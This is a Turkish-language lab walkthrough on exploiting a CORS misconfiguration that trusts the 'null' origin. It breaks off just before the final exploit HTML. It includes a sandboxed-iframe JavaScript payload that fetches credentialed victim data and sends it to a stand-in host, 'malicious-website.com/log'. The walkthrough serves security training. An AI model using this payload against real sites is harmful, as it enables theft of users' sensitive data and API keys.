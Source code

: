 Ve server şöyle response verir:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, bir saldırgan Origin header'ında `null` değerini içeren bir cross-origin request oluşturmak için çeşitli trickler kullanabilir. Bu, whitelist'i tatmin edecek ve domainler arası erişime yol açacaktır. Örneğin, bu, formun sandbox'lanmış bir `iframe` cross-origin isteği kullanılarak yapılabilir:

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

---

# Lab: CORS vulnerability with trusted null origin

Bu web sitesi, “null” origine güvendiği için güvensiz bir CORS yapılandırmasına sahiptir.

Laboratuvarı çözmek için, adminin API anahtarını almak üzere CORS kullanan bir JavaScript oluşturun ve kodu exploit server'ınıza yükleyin. Admin'in API anahtarını başarıyla gönderdiğinizde laboratuvar çözülmüş olur.

Aşağıdaki kimlik bilgilerini kullanarak kendi hesabınıza giriş yapabilirsiniz: `wiener:peter`

1- Intercept'in kapalı olduğunu kontrol edin, ardından hesabınıza giriş yapmak için Burp'ün tarayıcısını kullanın. “Hesabım ”a tıklayın.

2- History'yi inceleyin ve anahtarınızın `/accountDetails` adresine yapılan bir AJAX isteği aracılığıyla alındığını ve yanıtın CORS'u destekleyebileceğini düşündüren `Access-Control-Allow-Credentials` header'ını içerdiğini gözlemleyin.

![Pasted image 20250603002146.png](/img/user/resimler/Pasted%20image%2020250603002146.png)

3-  İsteği Burp Repeater'a gönderin ve `Origin: null` header'ını ekleyerek yeniden gönderin.

![Pasted image 20250603002206.png](/img/user/resimler/Pasted%20image%2020250603002206.png)

4- “`null`” origin'in `Access-Control-Allow-Origin` header'ında yansıtıldığını gözlemleyin.

5- Tarayıcıda, exploit sunucusuna gidin ve aşağıdaki HTML'yi girin, `YOUR-LAB-ID` yerine benzersiz laboratuvar URL'nizi ve `YOUR-EXPLOIT-SERVER-ID` yerine exploit sunucu kimliğini yazın:
